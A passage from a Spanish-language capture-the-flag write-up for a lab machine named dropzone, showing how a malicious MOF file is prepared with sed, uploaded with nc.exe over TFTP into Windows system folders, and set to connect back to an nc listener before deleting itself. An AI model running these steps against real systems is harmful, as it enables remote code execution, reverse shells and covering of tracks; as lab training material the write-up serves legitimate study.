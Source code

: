 ```bash
❱ sed -i 's/@CLASS@/eAcabo/g' payload.mof
```

Listos, no vemos más referencias extrañas...

Lo que hará el objeto al ser compilado será:

1. Ejecutará nuestro payload (`nc.exe`) para que haga una petición hacia nuestro listener.
2. Borrará los dos archivos, tanto el objeto `.mof` como el binario `nc.exe` del sistema.

Procedamos a subir los archivos y ver si obtenemos alguna petición:

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

Y en el servidor **TFTP** subimos los objetos:

(Recordemos las rutas donde debemos subirlos: **exe**, `c:\Windows\System32` y **mof**, `c:\Windows\System32\wbem\mof`).

```bash
❱ rlwrap tftp dropzone.htb 69
tftp> binary
tftp> put nc.exe /Windows/System32/nc.exe
Sent 38866 bytes in 8.3 seconds
tftp> put payload.mof /Windows/System32/wbem/mof/payload.mof
Sent 2349 bytes in 0.7 seconds
tftp> 
```

Pero no recibimos nada 😝

Comparando nuestro `.mof` con los ejemplos que vimos antes, encontramos una diferencia relacionada con los **escapes** de caracteres.

Ejemplo de la web:

```mof
#pragma namespace ("\\\\.\\root\\subscription")
```

El nuestro:

```mof
#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
```

Vale, pues en todo el archivo hay varios "escapes" de ese estilo, así que juguemos de nuevo con **sed** para indicarle que si encuentra 4 `\` los remplace por 2 `\`:

```bash
❱ head payload.mof -n 1
#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
```

```bash
❱ sed 's/\\\\/\\/g' payload.mof | head -n 1
#pragma namespace("\\\\.\\root\\cimv2")
```
